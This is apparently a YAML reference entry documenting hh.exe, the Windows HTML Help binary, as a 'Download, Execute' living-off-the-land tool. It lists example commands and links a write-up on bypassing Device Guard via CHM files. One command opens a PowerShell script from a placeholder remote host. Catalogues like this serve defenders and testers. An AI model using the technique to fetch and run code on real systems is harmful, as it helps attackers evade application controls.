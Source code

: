 ```yaml
---
Name: hh.exe
Description: Download, Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: HH.exe http://www.google.com
    Description: 'Opens google's web page with HTML Help.'
  - Command: HH.exe C:\
    Description: 'Opens c:\\ with HTML Help.'
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: 'Opens calc.exe with HTML Help.'
  - Command: HH.exe http://some.url/script.ps1
    Description: 'Open the target PowerShell script with HTML Help.'
Full Path:
  - c:\windows\system32\hh.exe
  - c:\windows\sysWOW64\hh.exe
Code Sample: []
Detection: []
Resources:
  - https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Notes: Thanks to Oddvar Moe - @oddvarmoe
---
```

